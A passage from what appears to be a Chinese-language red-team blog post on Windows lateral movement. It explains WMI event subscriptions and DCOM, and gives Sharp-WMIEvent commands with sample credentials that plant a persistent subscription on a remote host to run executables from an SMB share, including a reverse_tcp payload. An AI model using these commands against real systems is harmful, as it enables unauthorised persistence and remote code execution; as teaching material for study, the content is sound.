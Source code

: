 ![powerspolit-dc-to-ps](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/Intranet_horizontal/powerspolit-dc-to-ps.png)

注意起始位置为PS

以及：

https://github.com/rootclay/WMIHACKER

### WMI订阅事件的利用

远程部署WMI事件订阅需要在远程系统上具有管理员权限，WMI事件订阅用到的两个组件event,consumer

+ Event Filter:

  WQL事件查询，用于将事件筛选为特定条件集，例如刚刚在终端上派生的Outlook.exe。WQL查询可能类似于

  ```
  Select * From __InstanceCreationEvent Within 5 
  Where TargetInstance Isa “Win32_Process” AND TargetInstance.Name = "Outlook.exe"
  ```

  类似于查询某个进程的创建或某个命令的执行，当查询到对应进程创建时，就会调用consumer

+ 事件消费者（Event Consumer）：这是事件触发时我们想要进行的特定操作，从红队交付来看，我们感兴趣的两个类是`ActiveScriptEventConsumer`和`CommandLineEventConsumer`。其中，`ActiveScriptEventConsumer`允许执行脚本代码（来自JScript或VBScript引擎），而`CommandLineEventConsumer`类则允许运行任意命令。我个人比较倾向于`ActiveScriptEventConsumer`类，这样就可以避免触及LOLBin的雷区。

  https://www.anquanke.com/post/id/223232

筛选器与消费者总是绑定在一起的，当筛选器轮询到对应进程启动时，将会调用消费者执行任意命令，或是执行脚本文件等

不难看出该方法更适用于权限持久化，但是，我们同样可以进行无文件的横向移动

#### Sharp_WMIEvent

项目地址：https://github.com/wh0amitz/Sharp-WMIEvent

```shell
Sharp-WMIEvent -Trigger Interval -IntervalPeriod 60 -Computername 192.168.30.10 -Domain hack.com -Username Administrator -Password uu2fu3o@admin -Command "cmd.exe /c \\192.168.30.20\smb\Sharp-WMIEvent.exe" 
#Sharp-WMIEvent -Trigger Interval -IntervalPeriod 60 -Command "cmd.exe /c \\IP\evilsmb\reverse_tcp.exe" -FilterName <Filter Name> -ConsumerName <Consumer Name>
```

在目标服务器上创建一个永久性的WMI订阅事件，每60秒执行一次

## 利用DCOM

DCOM（分布式组件对象模型）是微软基于组件对象模型（COM）的一系列概念和程序接口，它支持不同的两台机器上的组件间的通信，不论它们是运行在局域网、广域网、还是Internet上。利用这个接口，客户端程序对象能够向网络中另一台计算机上的服务器程序对象发送请求。

DCOM 使用远程过程调用（RPC）技术将组件对象模型（COM）的功能扩展到本地计算机之外，因此，在远程系统上托管COM服务器端的软件（通常在DLL或exe中）可以通过RPC向客户端公开其方法

优点：在远程主机上执行的进程会是托管COM服务端的软件，增加了隐蔽性

### 本地DCOM测试

执行以下命令，查看本地DCOM程序列表
